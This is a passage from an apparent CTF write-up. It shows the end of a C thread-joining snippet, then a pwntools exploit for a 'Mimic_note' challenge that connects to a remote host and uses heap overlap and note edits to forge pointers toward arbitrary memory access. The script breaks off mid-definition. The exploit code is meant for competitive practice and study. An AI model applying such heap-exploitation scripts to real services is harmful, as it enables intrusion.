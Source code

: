 ```c

    pthread_join(t1,NULL);
    pthread_join(t2,NULL);
    pthread_join(t3,NULL);
    if(success_index){
      break;
    }
  }

}
```

### Mimic_note




exp:

```python=
from pwn import *

#r = process(["./mimic_note_32"])
#r = process(["./mimic_note_64"])
#r = process(["./mimic"])
r = remote("45.32.120.212", 6666)


def new(size):
	r.sendlineafter(">>","1")
	r.sendlineafter("?",str(size))

def remove(idx):
	r.sendlineafter(">>","2")
	r.sendlineafter("?",str(idx))

def show(idx):
	r.sendlineafter(">>","3")
	r.sendlineafter("?",str(idx))

def edit(idx,content):
	r.sendlineafter(">>","4")
	r.sendlineafter("?",str(idx))
	r.sendafter("?",content)

new(0x38)
new(0x120)
new(0x90)
new(0x70)
edit(1,"\x00"*0xf0+p64(0x100))
remove(1)
edit(0,"\x00"*0x38)
new(0x80) #1
new(0x60) #4
remove(1)
remove(2)
new(0x80) #1
new(0x60) #2
remove(2)
edit(4,p64(0x6020d0))
new(0x60)
new(0x60)
edit(5,p64(0x6020f0)+p64(0x100))

def readmem(addr):
```